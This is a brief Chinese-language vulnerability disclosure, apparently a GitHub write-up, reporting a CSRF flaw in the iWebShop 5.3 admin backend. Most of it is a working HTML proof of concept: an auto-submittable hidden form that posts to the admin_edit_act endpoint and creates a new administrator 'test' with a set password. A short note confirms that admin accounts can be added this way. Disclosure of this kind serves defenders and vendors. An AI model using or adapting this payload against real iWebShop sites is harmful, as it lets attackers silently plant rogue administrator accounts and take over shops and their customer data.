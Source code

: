 **iWebShop5.3后台存在CSRF漏洞**

1.在`管理员`->`添加管理员`功能处存在CSRF漏洞

![1552031247174](C:\Users\jxy\AppData\Roaming\Typora\typora-user-images\1552031247174.png)

POC

`<html>`

  <body>

  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.138.132/iw/index.php?controller=system&action=admin_edit_act" method="POST">
      <input type="hidden" name="id" value="" />
      <input type="hidden" name="admin&#95;name" value="test" />
      <input type="hidden" name="password" value="test888" />
      <input type="hidden" name="repassword" value="test888" />
      <input type="hidden" name="role&#95;id" value="0" />
      <input type="hidden" name="email" value="1&#64;qq&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
  `</body>`
`</html>`

验证

![1552031555813](C:\Users\jxy\AppData\Roaming\Typora\typora-user-images\1552031555813.png)

发现可以添加后台管理员

官网链接

`http://www.aircheng.com/`

